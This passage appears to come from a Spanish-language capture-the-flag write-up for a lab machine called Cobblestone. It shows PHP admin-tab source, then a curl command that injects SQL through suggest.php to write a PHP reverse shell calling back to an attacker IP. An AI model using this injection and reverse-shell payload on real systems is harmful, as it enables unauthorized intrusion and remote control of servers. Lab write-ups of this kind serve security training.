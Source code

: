 Info:

```php
.............................<RESTO DE INFO>.......................................
<?php if (isset($_SESSION['id']) && $_SESSION['role'] === 'admin') {
                                echo <<<HTML
                        <li class="nav-item" role="presentation">
                                <button class="nav-link text-dark" id="upload-tab" data-bs-toggle="tab" data-bs-target="#upload" type="button" role="tab" aria-controls="upload" aria-selected="false">Upload Skin</button>
                        </li>
                        <li class="nav-item" role="presentation">
                                <button class="nav-link text-dark" id="user-tab" data-bs-toggle="tab" data-bs-target="#user" type="button" role="tab" aria-controls="user" aria-selected="false">User Management</button>
                        </li>
                        <li class="nav-item" role="presentation">
                                <button class="nav-link text-dark" id="suggest-tab" data-bs-toggle="tab" data-bs-target="#suggest" type="button" role="tab" aria-controls="suggest" aria-selected="false">Skin Suggestions</button>
                        </li>
                        HTML;
                        } ?>
.............................<RESTO DE INFO>.......................................
```

Veremos que como el usuario `admin` se puede subir `skins` mediante el parametro `upload` dentro de la carpeta `skins` por lo que podemos deducir que en dicha carpeta tendra permisos de escritura.

Vamos a probar a subir nuestra `shell.php` a dicha carpeta de esta forma:

```shell
SQL="' union select 1,2,3,4,'<?php \$sock=fsockopen(\"<IP_ATTACKER>\",<PORT>);\$proc=proc_open(\"sh\", array(0=>\$sock, 1=>\$sock, 2=>\$sock),\$pipes); ?>' into outfile '/var/www/html/skins/test1.php' -- -"; curl -sL 'http://vote.cobblestone.htb/suggest.php' -H 'Cookie: PHPSESSID=gjp62l95o56ebvotltgmlj8dh4' -d "url=$SQL"
```

Info:

```
<!-- Proudly coded by Billy (https://bybilly.uk) -->
<!-- Version: 1.9.2 -->


<!DOCTYPE html>
<html>
<head>
        <!-- Info meta tags, important for social media + SEO -->
        <title>Cobblestone - Server Details</title>

        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <meta charset="utf-8">

    <link rel="stylesheet" href="css/bootstrap.min.css">
        <link rel="stylesheet" href="css/all.min.css">
        <link rel="stylesheet" href="css/stylesheet.css">

</head>
<body>
        <div class="container-fluid">
        None        <a class="btn btn-light mt-4" href="index.php">back</a>
        </div>

    <script src="js/bootstrap.bundle.min.js" type="text/javascript"></script>
        <script src="js/jquery.min.js" type="text/javascript"></script>
        <script src="js/firefly.js" type="text/javascript"></script>
```
